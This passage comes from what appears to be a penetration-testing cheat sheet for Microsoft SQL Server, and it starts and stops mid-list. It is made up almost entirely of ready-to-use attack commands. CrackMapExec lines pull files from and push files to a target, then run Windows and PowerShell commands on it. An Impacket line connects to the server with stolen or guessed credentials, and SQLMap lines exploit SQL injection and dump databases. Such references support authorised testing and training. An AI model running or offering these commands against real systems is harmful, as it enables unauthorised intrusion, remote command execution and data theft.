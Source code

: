     crackmapexec mssql <target_ip> -d <domain> -u <username> -p '<password>' --get-file C:\\Windows\\Temp\\whoami.txt /tmp/file
    ```
*   **Upload MSSQL file:**

    ```bash
    crackmapexec mssql <target_ip> -d <domain> -u <username> -p '<password>' --put-file <source_filepath> <destination_filepath>

    crackmapexec mssql <target_ip> -d <domain> -u <username> -p '<password>' --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt
    ```
*   **Execute Windows command using CrackMapExec:**

    ```bash
    crackmapexec mssql <target_ip> -d <domain> -u <username> -p '<password>' --local-auth -x 'whoami'
    ```
*   **Execute Windows PowerShell command using CrackMapExec**

    ```bash
    crackmapexec mssql <target_ip> -d <domain> -u <username> -p '<password>' -X '$PSVersionTable'
    ```

#### \[\[Impacket]]

**\[\[Impacket-MSSQLClient]]**

*   **Connect with Username/Password:**

    ```bash
    impacket-mssqlclient <username>:'<password>'@<target_ip> -p <target_port> 
    ```

#### \[\[SQLNinja]]

#### \[\[SQLMap Cheat Sheet]]

*   **Run SQLMap:** Exploiting SQL Injection vulnerabilities in web applications connected to MSSQL.

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=mssql --dump
    ```
*   **Run SQLMap against a single target URL:**

    ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1"
    ```
*   **Send data in a POST request:** (--data implies POST request)

    ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1" --data="[id=1]"
    ```
*   **Change the parameter delimiter:** (& is the default)

    ```bash
    python sqlmap.py -u "http[:]//www.target.com/vuln.php?id=1" --data="[query=foobar;id=1]" --param-del="[;]"
    ```
*   **Select a random User-Agent from `./txt/user-agents.txt` and use it:**
